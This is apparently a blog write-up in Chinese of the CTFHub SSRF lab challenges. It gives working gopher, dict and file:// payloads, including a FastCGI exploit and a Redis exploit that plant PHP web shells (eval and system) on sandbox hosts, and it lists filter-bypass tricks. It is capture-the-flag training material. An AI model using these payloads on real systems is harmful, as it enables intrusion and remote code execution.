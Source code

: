 ```yaml
---
layout: post
title: CTFHub Web SSRF
subtitle: CTFHub Web SSRF
date: 2025-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. SSRF

### 1.1. 内网访问

访问 `[http://127.0.0.1/flag.php](http://127.0.0.1/flag.php)`

### 1.2. 伪协议读取文件

```url
http://127.0.0.1/flag.php
```

读取到？？？说明文件存在

```url
php://filter/read=convert.base64-encode/resource=http://127.0.0.1/flag.php
#都失败，尝试file 以绝对路径读取
file:///var/www/html/flag.php
# 成功读取
```

### 1.3. 端口扫描

```url
dict://127.0.0.1:8080
```

bp 抓包设置 payload

![image](https://img.ghostliner.top/bDrLb5.png)

8586 有报错响应

![image](https://img.ghostliner.top/yPlCCB.png)

![image](https://img.ghostliner.top/Vbh1mE.png)

### 1.4. POST 请求

`http://127.0.0.1/flag.php`

![image](https://img.ghostliner.top/QlbERd.png)

填入 key 提交

![image](https://img.ghostliner.top/x9sNEU.png)

URL 二次编码，第一次 URL 编码后将 `%0A` 替换为 `%0D0A`

```http
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520challenge-a4e82c2602cbeef6.sandbox.ctfhub.com%253A10800%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%253B%2520rv%253A140.0)%2520Gecko%252F20100101%2520Firefox%252F140.0%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252C*%252F*%253Bq%253D0.8%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.8%252Czh-TW%253Bq%253D0.7%252Czh-HK%253Bq%253D0.5%252Cen-US%253Bq%253D0.3%252Cen%253Bq%253D0.2%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AContent-Type%253A%2520application%252Fx-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-a4e82c2602cbeef6.sandbox.ctfhub.com%253A10800%250D%250AConnection%253A%2520close%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-a4e82c2602cbeef6.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250APriority%253A%2520u%253D0%252C%2520i%250D%250A%250D%250Akey%253Df16bc01bbf8a2ebfca9d9f7a01b7947e
```

![image](https://img.ghostliner.top/PMio40.png)

![image](https://img.ghostliner.top/4CK7Af.png)

### 1.5. 上传文件

![image](https://img.ghostliner.top/SptxW5.png)

添加 submit，提交 bp 抓包

![image](https://img.ghostliner.top/8LGHnz.png)

![image](https://img.ghostliner.top/26b8Pf.png)

第一次 URL 编码，并将 `%0A` 替换为 `%0D0A`

```http
POST%20%2Fflag.php%20HTTP%2F1.1%0D%0AHost%3A%20challenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%3A10800%0D%0AUser-Agent%3A%20Mozilla%2F5.0%20(Windows%20NT%2010.0%3B%20Win64%3B%20x64%3B%20rv%3A140.0)%20Gecko%2F20100101%20Firefox%2F140.0%0D%0AAccept%3A%20text%2Fhtml%2Capplication%2Fxhtml%2Bxml%2Capplication%2Fxml%3Bq%3D0.9%2C*%2F*%3Bq%3D0.8%0D%0AAccept-Language%3A%20zh-CN%2Czh%3Bq%3D0.8%2Czh-TW%3Bq%3D0.7%2Czh-HK%3Bq%3D0.5%2Cen-US%3Bq%3D0.3%2Cen%3Bq%3D0.2%0D%0AAccept-Encoding%3A%20gzip%2C%20deflate%0D%0AContent-Type%3A%20multipart%2Fform-data%3B%20boundary%3D----geckoformboundary51834e26d074966e704b418761d460d1%0D%0AContent-Length%3A%20266%0D%0AOrigin%3A%20http%3A%2F%2Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%3A10800%0D%0AConnection%3A%20close%0D%0AReferer%3A%20http%3A%2F%2Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%3A10800%2F%3Furl%3D127.0.0.1%2Fflag.php%0D%0AUpgrade-Insecure-Requests%3A%201%0D%0APriority%3A%20u%3D0%2C%20i%0D%0A%0D%0A------geckoformboundary51834e26d074966e704b418761d460d1%0D%0AContent-Disposition%3A%20form-data%3B%20name%3D%22file%22%3B%20filename%3D%22shell.php%22%0D%0AContent-Type%3A%20application%2Foctet-stream%0D%0A%0D%0A%3C%3Fphp%20echo%20123%3B%40eval(%24_POST%5B'code'%5D)%3B%3F%3E%0D%0A------geckoformboundary51834e26d074966e704b418761d460d1--
```

第二次 URL 编码

```http
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520challenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%253A10800%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%253B%2520rv%253A140.0)%2520Gecko%252F20100101%2520Firefox%252F140.0%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252C*%252F*%253Bq%253D0.8%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.8%252Czh-TW%253Bq%253D0.7%252Czh-HK%253Bq%253D0.5%252Cen-US%253Bq%253D0.3%252Cen%253Bq%253D0.2%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----geckoformboundary51834e26d074966e704b418761d460d1%250D%250AContent-Length%253A%2520266%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%253A10800%250D%250AConnection%253A%2520close%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250APriority%253A%2520u%253D0%252C%2520i%250D%250A%250D%250A------geckoformboundary51834e26d074966e704b418761d460d1%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522shell.php%2522%250D%250AContent-Type%253A%2520application%252Foctet-stream%250D%250A%250D%250A%253C%253Fphp%2520echo%2520123%253B%2540eval(%2524_POST%255B'code'%255D)%253B%253F%253E%250D%250A------geckoformboundary51834e26d074966e704b418761d460d1--
```

![image](https://img.ghostliner.top/lh8WV5.png)

成功

![image](https://img.ghostliner.top/PtzdFG.png)

### 1.6. FastCGI 协议

安装 gopherus

```shell
git clone https://github.com/tarunkant/Gopherus.git
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
./install.sh
```

生成 exploit

```shell
python2 gopherus.py --exploit fastcgi
/var/www/html/index.php
echo PD9waHAgZXZhbCgkX1BPU1RbJ2NvZGUnXSk7Pz4= | base64 -d >/var/www/html/shell.php
```

![image](https://img.ghostliner.top/b5W2ZA.png)

进行一次 URL 编码

```http
_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2505%2505%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2503CONTENT_LENGTH134%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%2586%2504%2500%253C%253Fphp%2520system%2528%2527echo%2520PD9waHAgZXZhbCgkX1BPU1RbJ2NvZGUnXSk7Pz4%253D%2520%257C%2520base64%2520-d%2520%253E%2Fvar%2Fwww%2Fhtml%2Fshell.php%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

![image](https://img.ghostliner.top/52K3Us.png)

![image](https://img.ghostliner.top/nCFdDK.png)

蚁剑连接 `[http://challenge-ab6a103940705427.sandbox.ctfhub.com:10800/shell.php](http://challenge-ab6a103940705427.sandbox.ctfhub.com:10800/shell.php)` 成功

![image](https://img.ghostliner.top/UfQZcD.png)

### 1.7. Redis 协议

```url
http://challenge-2330ba3a9a6a7458.sandbox.ctfhub.com:10800/?url=dict://127.0.0.1:6379
```

gopherus 生成 exploit

![image](https://img.ghostliner.top/DQG6Gh.png)

url 编码

```http
gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252434%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```

![image](https://img.ghostliner.top/I2Q7yK.png)

响应返回 504，访问 shell.php 成功

```url
http://challenge-2330ba3a9a6a7458.sandbox.ctfhub.com:10800/shell.php?cmd=ls
```

![image](https://img.ghostliner.top/i2e5HJ.png)

```html
?cmd=ls /
?cmd=cat /flag_eb4d87188e48c82b40fe59e7eb88ee74
```

![image](https://img.ghostliner.top/9BFiU5.png)

![image](https://img.ghostliner.top/yiAmiC.png)

### 1.8. URL Bypass

```html
?url=http://notfound.ctfhub.com@127.0.0.1/flag.php # 协议://user@url
```

![image](https://img.ghostliner.top/K5Juek.png)

### 1.9. 数字 IP Bypass

```html
?url=http://localhost/flag.php
```

![image](https://img.ghostliner.top/m01Wgk.png)

```html
8进制格式：0177.0.0.1
16进制格式：0x7F.0.0.1
10进制整数格式：2130706433
16进制整数格式：0x7F000001
```

### 1.10. 302 跳转 Bypass

```html
?url=http://localhost/flag.php
```

![image](https://img.ghostliner.top/DLpi1u.png)

### 1.11. DNS 重绑定 Bypass

```html
?url=http://www.baidu.com/index.html #可访问域名
```

添加 DNS A 记录为 127.0.0.1

```html
?url=http://local.ghostliner.top/flag.php
```

![image](https://img.ghostliner.top/euq74T.png)
